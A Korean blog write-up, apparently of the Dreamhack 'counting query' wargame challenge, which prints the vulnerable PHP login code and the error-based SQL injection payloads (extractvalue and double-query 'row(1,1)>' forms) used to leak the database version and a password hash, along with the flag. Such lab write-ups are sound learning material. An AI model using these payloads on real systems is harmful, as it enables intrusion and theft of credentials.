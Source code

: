 ```yaml
---
title : "Dreamhack - counting query (wargame.kr, 풀이 봄)"
date: 2022-03-31 20:06 +0900
categories: [Dreamhack, Webhacking]
tags: [Error Based SQL Injection, wargame.kr]
---
```


## counting query
<hr style="border-top: 1px solid;"><br>

```php
?php
 if (isset($_GET['view-source'])) {
     show_source(__FILE__);
     exit();
 }
 include("./inc.php"); // database connect, $FLAG.
 ini_set('display_errors',false);

 function err($str){ die("<script>alert(\"$str\");window.location.href='./';</script>"); }
 function uniq($data){ return md5($data.uniqid());}
 function make_id($id){ return mysql_query("insert into all_user_accounts values (null,'$id','".uniq($id)."','guest@nothing.null',2)");}
 function counting($id){ return mysql_query("insert into login_count values (null,'$id','".time()."')");}
 function pw_change($id) { return mysql_query("update all_user_accounts set ps='".uniq($id)."' where user_id='$id'"); }
 function count_init($id) { return mysql_query("delete from login_count where id='$id'"); }
 function t_table($id) { return mysql_query("create temporary table t_user as select * from all_user_accounts where user_id='$id'"); };

 if(empty($_POST['id']) || empty($_POST['pw']) || empty($_POST['type'])){
  err("Parameter Error :: missing");
 }

 $id=mysql_real_escape_string($_POST['id']);
 $ps=mysql_real_escape_string($_POST['pw']);
 $type=mysql_real_escape_string($_POST['type']);
 $ip=$_SERVER['REMOTE_ADDR'];

 sleep(2); // not Bruteforcing!!

 if($id!=$ip){
  err("SECURITY : u can access with allotted id only");
 }

 $row=mysql_fetch_array(mysql_query("select 1 from all_user_accounts where user_id='$id'"));
 if($row[0]!=1){
  if(false === make_id($id)){
   err("DB Error :: create user error");
  }
 }
 
 $row=mysql_fetch_array(mysql_query("select count(*) from login_count where id='$id'"));
 $log_count = (int)$row[0];
 if($log_count >= 4){
  pw_change($id);
  count_init($id);
  err("SECURITY : bruteforcing detected - password is changed");
 }
 
 t_table($id); // don`t access the other account

 if(preg_match("/all_user_accounts/i",$type)){
  err("SECURITY : don`t access the other account");
 }

 counting($id); // limiting number of query

 if(false === $result=mysql_query("select * from t_user where user_id='$id' and ps='$ps' and type=$type")){
  err("DB Error :: ".mysql_error());
 }

 $row=mysql_fetch_array($result);
 
 if(empty($row['user_id'])){
  err("Login Error :: not found your `user_id` or `password`");
 }

 echo "welcome <b>$id</b> !! (Login count = $log_count)";
 
 $row=mysql_fetch_array(mysql_query("select ps from t_user where user_id='$id' and ps='$ps'"));

 //patched 04.22.2015
 if (empty($ps)) err("DB Error :: data not found..");

 if($row['ps']==$ps){ echo "<h2>wow! FLAG is : ".$FLAG."</h2>"; }

?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

```if(false === $result=mysql_query("select * from t_user where user_id='$id' and ps='$ps' and type=$type")) { err("DB Error :: ".mysql_error()); }``` 

이 부분을 이용하여 alert 메시지를 확인해가면서 풀 수 있을 듯 하다.

<br>

우선 개발자 도구에서 타입을 선택하는 부분이다.
: ```<select name='type'> <option value='1'>admin</option> <option value='2' selected>user</option> </select>```

여기서 admin 부분을 보면 value가 1로 설정되어 있다. 

이 값을 아래와 같이 변경해주면 버전을 확인할 수 있다.

<br>

1 union select extractvalue(1, concat(0x3a,version()))
: ```DB Error :: XPATH syntax error: ':5.5.64-MariaDB-1ubuntu0.14.04.1'```

<br>

우리는 비밀번호를 찾아야 한다. 그 비밀번호는 우리가 에러를 일으키면서 출력된 에러 안에 표시가 되어야 한다.

<br>

extractvalue로는 Constant XPATH 에러가 계속 떠서 xml 함수로는 불가능하다고 판단, ```select COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) as x FROM information_schema.tables GROUP BY x``` 이 구문을 이용해보려 했는데 이 구문은 제대로 이해를 하지 못해서 풀이를 찾아보았다..

<br>

Double Query Injection
: <a href="https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c" target="_blank">medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c</a>

<br>

```or row(1,1)>(select count(*), concat(ps,0x3a,floor(rand()*2)) as a from information_schema.tables group by a)```

-> ```DB Error :: Duplicate entry '98cb680f6259df442c7878192ab5d58a:0' for key 'group_key'```

<br>

row 함수의 의미
: <a href="https://ch4njun.tistory.com/88" target="_blank">ch4njun.tistory.com/88</a>
: <a href="https://ind2x.github.io/posts/sql_injection/#error-based-sql-injection" target="_blank">ind2x.github.io/posts/sql_injection/#error-based-sql-injection</a>

<br>

+ Flag : ```DH{7e4950ce11ea958764a20eadb3bf43c6b49b474f}```

<br><br>
<hr style="border: 2px solid;">
<br><br>

